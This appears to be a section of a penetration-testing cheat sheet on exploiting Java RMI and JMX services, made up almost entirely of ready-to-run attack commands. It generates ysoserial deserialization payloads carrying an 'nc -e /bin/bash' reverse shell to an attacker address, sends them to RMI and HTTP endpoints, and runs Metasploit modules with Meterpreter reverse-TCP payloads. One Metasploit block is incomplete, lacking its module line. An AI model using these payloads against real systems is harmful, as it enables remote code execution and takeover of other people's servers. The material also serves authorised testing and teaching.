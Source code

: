 
## 💥 Exploitation Workflow

### Method 1: Deserialization Attacks

#### ysoserial Exploitation
```bash
# Generate payload
java -jar ysoserial.jar CommonsCollections1 "nc -e /bin/bash <your-ip> 4444" > payload.ser

# Send payload to RMI service
java -cp . RMIClient <target-ip> 1099 payload.ser

# Using curl for HTTP wrapped RMI
curl -X POST -H "Content-Type: application/x-java-serialized-object" --data-binary @payload.ser http://<target-ip>:8080/rmi-endpoint
```

#### Common ysoserial Gadgets
```bash
# List available gadgets
java -jar ysoserial.jar

# Generate different payloads
java -jar ysoserial.jar CommonsCollections5 "command" > payload5.ser
java -jar ysoserial.jar Groovy1 "command" > payload_groovy.ser
java -jar ysoserial.jar Spring1 "command" > payload_spring.ser
java -jar ysoserial.jar Jdk7u21 "command" > payload_jdk.ser
```

### Method 2: Metasploit Exploitation

#### RMI Scanner Module
```bash
msfconsole -x "use auxiliary/scanner/misc/java_rmi_server; set RHOSTS <target-ip>; set RPORT 1099; run"
```

#### RMI Deserialization Attack
```bash
set rhosts 
set RHOST <target-ip>
set RPORT 1099
set PAYLOAD java/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT 4444
exploit
```

#### JMX Invocation MBean Attack
```bash
use exploit/multi/misc/java_jmx_server
set RHOST <target-ip>
set RPORT 1617
set LHOST <your-ip>
exploit
```
